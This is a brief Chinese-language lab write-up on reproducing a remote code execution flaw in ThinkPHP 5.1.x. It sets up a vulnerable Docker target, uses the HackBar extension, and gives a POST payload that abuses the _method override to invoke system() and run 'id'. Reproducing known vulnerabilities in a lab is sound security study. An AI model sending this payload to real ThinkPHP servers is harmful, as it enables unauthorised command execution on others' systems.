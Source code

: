 ## Thinkphp5.1.x 远程漏洞执行漏洞复现

### 一、环境准备
使用vsplate(https://www.vsplate.com/new.php)的docker快速搭建平台，填入github地址（eg. https://github.com/wdan-code/vuln） 即可快速搭建靶机

### 二、工具准备
使用的Hacker(https://github.com/Mr-xn/hackbar2.1.3)浏览器插件
![image](https://user-images.githubusercontent.com/30569668/128801110-dfbdd6b2-fe89-45de-a2ac-308379ee76d2.png)


### 三、复现过程
注：针对于这个版本有点鸡肋，需要index.php文件中跳过报错提示（我的github仓库已修改，直接拉取即可）
语句：error_reporting(0);
Payload：a=system&b=id&_method=filter

